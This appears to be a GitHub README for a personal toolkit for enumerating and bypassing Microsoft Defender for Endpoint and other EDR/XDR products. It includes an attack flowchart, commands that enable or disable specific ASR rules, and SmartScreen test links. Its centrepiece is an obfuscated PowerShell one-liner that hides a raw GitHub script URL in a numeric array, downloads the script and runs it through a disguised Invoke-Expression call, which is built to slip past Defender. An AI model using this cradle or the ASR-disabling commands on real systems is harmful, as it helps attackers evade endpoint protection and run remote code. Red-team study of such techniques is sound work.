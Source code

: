 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    MDE[ Microsoft Defender for Endpoint ]
    MDE --> MDEENUM[ Enumerate MDE ]
    MDEENUM --> | fkmde.ps1 | MDEVULN[ Vulnerable Configurations ]
    MDEENUM --> |  Windows UI | MDEVULN[ Vulnerable Configurations ]
    MDEVULN --> | officemacro32.docm | MDEASR[ ASR Misconfiguration ]
    MDEVULN --> | ASR exclusions | MDEASR
    MDEVULN --> MDEEXCLUSION[ Defender Exclusions ]

    MDE --> MDEBYPASS[ Attempt Defender Bypass ]
    MDEBYPASS --> | ps1-obfuscator.ps1 | MDEBYPASS2[ Defender Bypass ]

    MDE --> MDESSCR[ Find disabled Smart Screen Settings ]
    MDESSCR --> | Smart Screen testing URL | MDESSCR2[ Vulnerable Smart Screen ]

    APP[ Microsoft AppLocker ]
```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```

## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

#### * officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)

ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

Enable & disable ASR rules
```
Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
```

![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

#### * wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )

Enable & disable ASR rules
```
Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html





